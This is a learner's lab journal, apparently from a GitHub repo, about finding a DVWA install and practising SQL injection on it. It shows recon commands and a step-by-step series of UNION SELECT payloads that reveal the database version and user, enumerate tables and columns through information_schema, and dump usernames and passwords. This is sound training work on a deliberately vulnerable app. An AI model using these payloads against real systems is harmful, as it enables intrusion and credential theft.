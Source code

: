 # 🛠️ Day #6 – The Hunt for the Real Host

#### (Screenshots for the day can be seen [here](../Screenshots/Day6.md). Judge away, oh mighty Judgers! )

## 🧱 Block 1: Environment Triage

### 🎯 Block 1 Goal

Run targeted recon across each VM I have to determine where DVWA is actually installed and what service is exposing it.

#### Subtasks for Block 1

- [x] 🔎 Check running services on Kali, Metasploitable2, and host machine
  - use `netstat`, `ss`, or `ps aux | grep apache` to find active web services
  - validate which systems have listeners on port `80` or `8080`
- [x] 📂 File system sweep
  - look for `/var/www/html/dvwa` or `/config/config.inc.php`
  - use `find / -name "dvwa"` if needed (I've been told to prepare to scroll on this one)
- [x] Hit each candidate IP in the browser
  - Test `localhost` and each VM's IP address
  - Confirm which one responds with DVWA's login page
- [x] Verify Apache or other web server logs
  - try `sudo tail -f /var/log/apache2/access.log`
  - interact with DVWA and observe which machine responds

### 💻 Commands Used

```bash
sudo netstat -tulnp | grep :80
sudo netstat -tulnp | grep :8080
ps aux | grep apache
find / -name "config.inc.php" 2>/dev/null
brave-browser --proxy-server="127.0.0.1:8080"
```

### 📥 Outputs to look for

- IP + port pairing that *definitely* points to the DVWA host
- Apache or alternative HTTP service actively responding
- Location of `config.inc.php` or DVWA root directory
- Access logs showing actual requests hitting the system

### 🧠 Observations
#### 🔧 What I was doing

After fighting with DVWA's security level last week, I started fresh with full environmental checks:

- Made sure Metasploitable was running and pingable from Kali
- Verified DVWA was reachable from the browser
- Used `brave-browser --proxy-server="127.0.0.1:8080"` to route traffic through Burp Suite (I'll set up automations later, right now I'm trying to get some muscle memory)
- Ensured DVWA's security level STAYED on `low`

Once the setup was solid, I moved on to testing the input field under the SQL Injection module.

#### 😎 What went right

I slowly ramped up my tests:

- Entered `1` then `2` in the input field. Both returned the employee data I expected meaning I could dig deeper and try to figure out how many columns were in their SQL tables.
- I tried `ORDER BY` statements -- got errors back meaning "Error-based SQLi" is on the table!
- Finally, I tried: 
  
```sql 
 UNION SELECT null, null-- -
 UNION SELECT version(), user()-- -
```

- Which returned:

```sql
First name: 5.0.51a-3ubuntu5
Surname: root@localhost
```

I paused for a happy dance because getting the `root@localhost` means I successfully bypassed input controls, pulled live data from the backend database, AND learned the DB version and user context!

#### 🧠 Some new things I learned

- What does `UNION SELECT` actually mean?
  
  I am new to SQL tables and the jargon has really thrown me for a loop. Now I know the `UNION` keyword in SQL lets you combine results from two `SELECT` statements as long as they have the same number of columns and compatible data types in each column

  So, instead of:

  ```sql
  SELECT first_name, last_name FROM users WHERE user_id = '1'
  ```

  I injected this:

  ```sql
  ' UNION SELECT version(), user()-- - 
  ```

  This merged two `SELECT`s, the original one, and my custom one asking for the DB version and current user. GIVE ME ALL THE SECRETS!

- Why did this work?
  
  I confirmed the number of output columns using `ORDER BY` until I hit an error at `3`. I knew the page displayed `First Name` and `Surname` from my initial input field tests of `1` and `2`, and I knew `version()` and `user()` are built-in MySQL functions that return...exactly what they sound like (Yay!). By sending them in a `UNION SELECT`, I got the app to render that data directly to the page.

---

## 🧱 Block 2: Database Discovery & Table Mapping

### 🎯 Block 2 Goal

Use SQL injection to enumerate DVWA's database structure -- starting with **table names**, then **column names**, and finally, **data extraction**.

#### Subtasks for Block 2

- [x] Confirm database name so I know I'm hitting the right target and SQLi is functional
  - use `' UNION SELECT database(), null-- -`
- [x] List all of the tables in the database
  - use `' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()-- -`
    - This pulls the names of all tables within the current database context
    - Screenshots: `users`, `logins`, `credentials`
- [x] Find columns in a target table
  - use `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'-- -`
- [x] Dump interesting data from a table
  - try `' UNION SELECT user, password FROM users-- -`
